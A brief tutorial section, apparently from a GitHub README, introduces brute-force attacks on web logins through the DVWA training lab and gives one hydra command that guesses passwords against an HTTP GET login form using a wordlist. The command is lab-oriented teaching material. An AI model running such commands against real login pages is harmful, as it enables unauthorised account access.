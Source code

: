 ## 1. Brute Force Attack

![](https://pimages.toolbox.com/wp-content/uploads/2022/05/10131245/Critical-Steps-of-a-Brute-Force-Attack.png)
>We will use DVWA Labs To Learn Bruteforce Attacks

>We will use hydra and custom bash script to perform bruteforce attack

**Hydra**
```
hydra target.com -V -l username -P "worldlists.txt" http-get-form "/path:formusername=^USER^&formpassword=^PASS^&FormLogin=Login:F=Fail Message:H=Cookie: Cookies"
```
